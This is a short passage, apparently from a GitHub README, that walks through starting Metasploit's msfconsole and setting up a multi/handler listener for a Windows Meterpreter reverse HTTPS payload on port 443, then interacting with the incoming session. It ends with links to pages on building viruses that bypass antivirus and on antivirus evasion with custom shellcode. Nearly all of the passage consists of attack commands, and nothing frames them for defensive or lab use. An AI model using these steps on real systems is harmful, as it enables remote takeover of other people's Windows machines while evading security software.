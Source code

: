     `msfconsole`
3. Run 

    `use exploit/multi/handler`

    `set payload windows/meterpreter/reverse_https`

    `set lport 443`

    `set lhost 111.222.333.444`

    `set ExitOnSession false`

    `exploit -j -z`
4. Wait for incoming connection (session)
5. Connect to incoming session.

    `sessions -i 1` # 1 = session no. 

***
## 6. Resources
Misc resources. 

1. <http://realhackerspoint.blogspot.com/2013/02/create-virus-that-bypasses-antivirus.html/>
2. <http://www.digitalthreat.net/2012/02/anti-virus-evasion-using-custom-shellcode/>

***
